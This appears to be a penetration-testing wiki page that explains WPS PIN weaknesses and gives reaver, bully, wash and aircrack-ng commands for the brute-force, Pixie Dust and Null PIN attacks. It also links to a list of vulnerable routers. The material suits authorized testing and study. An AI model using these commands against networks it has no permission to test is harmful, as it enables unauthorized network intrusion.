 # WPS

## Theory

Wi-Fi Protected Setup (WPS) is a simplified configuration protocol designed to make connecting devices to a secure wireless network easier.
WPS employs an 8-digit PIN for user network connection, verifying the first 4 digits before proceeding to check the remaining 4. This allows for a potential Brute-Force attack on the first set of digits followed by the second set, with a total of only 11,000 possible combinations.

{% hint style="info" %}

Initially it's 20k possible combinations (10^8 =100.000.000 to 10^4+10^4=20.000) but as the 8th digit of the PIN is always a checksum of digit one to digit seven, there are at most (10^4 +10^3=11.000) attempts needed to find the correct PIN.

{% endhint %}

## Attacks

Here are some known attacks on Wi-Fi Protected Setup (WPS):

* **PIN Brute-Force:** Some routers with WPS allow users to connect by entering an 8-digit PIN code. A brute-force attack involves trying all possible combinations until the correct PIN is found.
* **Pixie Dust:** This attack exploits a weakness in the generation of WPS encryption keys. It involves exploiting vulnerabilities in certain routers during the creation of WPA/WPA2 encryption keys.
* **PIN Revelation:** Certain WPS-enabled routers may reveal information about the validity of the PIN during a connection attempt. This information disclosure can aid an attacker in narrowing down the search space during a brute-force attack.
* **Access Point Enumeration:** Some routers with WPS may be vulnerable to an attack that allows an attacker to determine which access points are present in a given area.

## Practice

There are three main methods for setting up a connection using WPS:

* **Push Button Configuration (PBC):** Press the WPS button on the router and then activate the WPS function on the device to connect. The two devices will automatically establish a connection.
* **PIN based Configuration:** Each WPS-enabled device has a unique PIN code. It can be entered on the router through its web interface, or vice versa, to establish the connection.
* **Near Field Communication Configuration:** In which the user has to bring the new client close to the access point to allow a near field communication between the devices. NFC Forum–compliant RFID tags can also be used.

### Monitor mode

The default configuration for wireless interfaces is "Managed" mode, restricting packet capture to those with a "Destination MAC" matching the interface's own MAC address.
To capture all packets within a wireless device's range, switch the mode to "Monitor."

If you have [Aircrack-ng](https://www.aircrack-ng.org/) (C) installed, you can run the following commands in your terminal:
```bash
# You may need to run these commands as root or a user with privileges
# /!\ Beware: change placeholder value $INTERFACE

airmon-ng #to list all your network interfaces.
arimon-ng check kill #to stop interfering network processes.
airmon-ng start "$INTERFACE" #to start your network interface in monitor mode.
```

If you are not using [Aircrack-ng](https://www.aircrack-ng.org/) (C), you can run the following commands in your terminal:
```bash
# You may need to run these commands as root or a user with privileges
# /!\ Beware: change placeholder value $INTERFACE

iwconfig #to view your wireless interfaces and check their current mode.
ifconfig "$INTERFACE" down #to disable the network interface you wish to change.
iwconfig "$INTERFACE" mode monitor #to change the mode of "$INTERFACE" to "monitor".
ifconfig "$INTERFACE" up #to re-enable your network interface.
```

### Recon

[Wash](https://github.com/t6x/reaver-wps-fork-t6x) (C) is a tool used to detect access points with WPS (Wi-Fi Protected Setup) enabled. It can perform a survey either directly from a live interface or by scanning a list of pcap files. As an auxiliary utility, Wash is a tool used to identify nearby WPS-enabled access points along with their main characteristics. It is included in the [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) package.
```bash
# /!\ Beware: change placeholder value $INTERFACE
wash -i "$INTERFACE"
```

### Brute-Force Attack

In December 2011, researcher [Stefan Viehböck](https://twitter.com/sviehb) identified a design and implementation flaw that renders PIN-based WPS vulnerable to brute-force attacks on WPS-enabled Wi-Fi networks. A successful exploitation of this flaw grants unauthorized individuals access to the network, and the sole effective solution is to disable WPS.

Today, two primary tools are available for executing this operation: [Reaver](https://github.com/t6x/reaver-wps-fork-t6x) (C) and [Bully](https://github.com/aanarchyy/bully) (C).
Reaver is crafted to be a robust and effective attack method targeting WPS. It has undergone testing against a diverse range of access points and WPS implementations. On the other hand, Bully represents a fresh implementation of the WPS brute force attack, coded in C. It offers several advantages over the original Reaver code, including fewer dependencies, enhanced memory and CPU performance, accurate handling of endianness, and a more resilient set of options.

```bash
# /!\ Beware: change placeholder values $INTERFACE, $BSSID, $CHANNEL
# Verbosity of output (for reaver): -v -vv -vvv
# Verbosity of output (for bully): -v 1 -v 2 -v 3
# Use 5GHz 802.11 channels: -5

# With reaver:
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -vv

# With bully:
bully "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -S -F -B -v 3
```

### Pixie Dust attack

During the summer of 2014, [Dominique Bongard](https://twitter.com/Reversity) identified a security vulnerability he named the Pixie Dust attack. This exploit specifically targets the default WPS implementation found in wireless chips produced by various manufacturers, including Ralink, MediaTek, Realtek, and Broadcom. The attack exploits a deficiency in randomization during the generation of the E-S1 and E-S2 "secret" nonces. With knowledge of these nonces, the PIN can be retrieved in a matter of minutes. To streamline the process, a tool called pixiewps was developed, and a new version of Reaver was created to automate the attack.

Check this [list](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y) to know which router model is vulnerable.

```bash
# /!\ Beware: change placeholder values $INTERFACE, $BSSID, $CHANNEL
# Verbosity of output (for reaver) : -v -vv -vvv
# Verbosity of output (for bully) : -v 1 -v 2 -v 3
# Use 5GHz 802.11 channels : -5

# With reaver:
reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -K 1 -N -vv

# With bully:
bully  "$INTERFACE" -b "$BSSID" -d -v 3
```

### Null Pin attack

Certain poorly implemented systems permitted the use of a Null PIN for connections, which is highly unusual. Reaver has the capability to test for this, whereas Bully lacks this specific functionality.

```bash
# /!\ Beware: change placeholder values $INTERFACE, $BSSID, $CHANNEL
# Verbosity of output (for reaver): -v -vv -vvv

reaver -i "$INTERFACE" -b "$BSSID" -c "$CHANNEL" -f -N -g 1 -vv -p ''
```

## All-in-one tools

All the mentioned WPS attacks can be effortlessly executed using airgeddon or wifite2.

Airgeddon (Bash): https://github.com/v1s1t0r1sh3r3/airgeddon

Wifite2 (Python): https://github.com/derv82/wifite2

{% hint style="info" %}

Monitor mode can be activated automatically with tools such as airgeddon and wifite2.

{% endhint %}

## Resources

Reaver (C): https://github.com/t6x/reaver-wps-fork-t6x

Bully (C): https://github.com/aanarchyy/bully

Airgeddon (Bash): https://github.com/v1s1t0r1sh3r3/airgeddon

Wifite2 (Python): https://github.com/derv82/wifite2

Aircrack-ng (C): https://www.aircrack-ng.org

Vulnerable router models: https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y
